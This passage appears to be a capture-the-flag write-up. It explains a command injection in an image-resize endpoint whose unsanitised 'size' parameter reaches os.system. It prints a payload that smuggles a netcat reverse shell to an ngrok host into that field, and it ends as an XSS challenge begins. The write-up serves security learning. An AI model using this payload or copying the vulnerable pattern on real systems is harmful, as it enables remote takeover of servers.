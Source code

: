 Basically it receives a file and resize it

And there's a command injection vulnerability at this point

```python=
image = request.files["image"]
size = request.form["size"]
cmd = f"convert {temp1.name} -resize {size} {temp2.name}"
os.system(cmd)
```

Why command injection? 

Well after the server receives our file it does some name conversion of the image name 

But the size parameter doesn't get changed so we have full control over that

And no form of sanitization is done when passing it to `system`

Making us able to inject our commands to be executed

But we don't get any command output back so this is a blind command injection

To exploit this I set up ngrok so as to get a reverse shell

First let us upload a file (it doesn't check file type so we can upload any file & we can just click that upload button it's not like we need it)
![](https://hackmd.io/_uploads/Byck2Z9p2.png)
![](https://hackmd.io/_uploads/H1XJT-qT2.png)

I'll be injecting my command in the size parameter

Here's the payload
![](https://hackmd.io/_uploads/SkgV6Zcp3.png)
```
16x16$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 6.tcp.eu.ngrok.io 18433 >/tmp/f)
```

Back on my listener I got the shell :shell:
![](https://hackmd.io/_uploads/r1LvaZcpn.png)

Also the flag 

```
Flag: flag{not_as_good_as_toysrus_though}
```

#### Xss101
![](https://hackmd.io/_uploads/SJFfRb9Tn.png)

No source this time :(

Going over to the web page shows this
![](https://hackmd.io/_uploads/HJbt0Wqp2.png)

So let us start from Level 1
